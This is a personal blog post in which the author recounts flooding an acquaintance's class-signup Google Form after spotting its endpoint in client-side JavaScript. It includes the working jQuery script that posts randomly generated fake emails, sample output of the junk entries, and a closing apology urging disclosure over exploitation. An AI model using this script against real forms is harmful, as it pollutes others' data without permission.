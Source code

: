 ```yaml
---
title: Sorry, I hacked you.
date: '2016-07-19'
heroImage: 'https://images.unsplash.com/photo-1511376777868-611b54f68947'
originalDatePublished: '2016-07-19'
description: " Someone I know from the interwebs posted a site with form that allowed you to sign up to a class of his and he had a huge google sheets security flaw"
author: 'Anthony Lombardi'
image: 'https://images.unsplash.com/photo-1511376777868-611b54f68947'
categories: [javascript]
tags: [javascript]
draft: false
---
```


My biggest concern in developing a website, especially in the current role I have, is to worry about how well a site will perform and how secure it will be. Someone I know from the interwebs posted a site with form that allowed you to sign up to a class of his. I like his work so I was intrigued into how he wrote his backend for the form since he is a front-end developer. His credentials of his backend was in his JS.

```javascript
function postContactToGoogle(f) {
  var email = f.find('.form-email').val();
  var name = f.find('.form-name').val();

  $.ajax({
    url: 'https://docs.google.com/forms/d/jeberish-google-id/formResponse',
    data: {
      entry_1111111111: email,
      entry_1111111117: name,
    },
    type: 'POST',
    dataType: 'xml',
    statusCode: {
      0: function () {
        window.location.replace('/path/thanks');
      },
      200: function () {
        window.location.replace('/path/thanks');
      },
    },
  });
}
```

So I looked at this telling myself it was wrong, or at least there had to be a better way of doing something like that.

I blew up the database(or in this case to a google excel doc) as a challenge to myself to see if I was really right.

```javascript
function rText() {
  var text = '';
  var possible =
    'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789';
  for (var i = 0; i < 5; i++) {
    text += possible.charAt(Math.floor(Math.random() * possible.length));
  }
  return text;
}

function generateEmail() {
  var username, email, full_email;
  username = 'HueBin_';
  email = 'Hacked';
  full_email = username + rText() + '@' + rText() + email + '.com';
  return full_email;
}

function postContactToGoogle() {
  $.ajax({
    url: 'https://docs.google.com/forms/d/jeberish-google-id/formResponse',
    data: {
      entry_1111111111: generateEmail(),
      entry_1111111117: 'HueBin_',
    },
    type: 'POST',
    dataType: 'xml',
    crossDomain: true,
    statusCode: {
      0: function (data) {
        console.log('BAD!', data);
      },
      200: function (data) {
        console.log('GOOD', data);
      },
    },
  });
}

$(function () {
  var num = 1;
  for (var i = 0; i < num; i++) {
    setTimeout(postContactToGoogle(), 50000); // yes thats 50,000!
  }
});
```

this posted info into the database that looked simular to this:

```
  name: HueBun_,Email:HueBin_piMt6@vwq4WHacked.com
  name: HueBun_,Email:HueBin_f7Txq@pzLm6Hacked.com
  name: HueBun_,Email:HueBin_YBTNf@TluieHacked.com
  name: HueBun_,Email:HueBin_QYqVm@jYWuUHacked.com
```

I wrote an email stating that I was really really sorry about it. More so, I meant to contact him sooner, but I just entered another year in my life and I took the weekend off from electronics (mainly because of beer)

conclusion: don't smoke crack! No, when putting anything out in to the publics eyes, do not put the keys to the castle out there for everyone to see. Also, don't go my route. Instead inform of the person of potential bugs rather than acting on exploiting them.
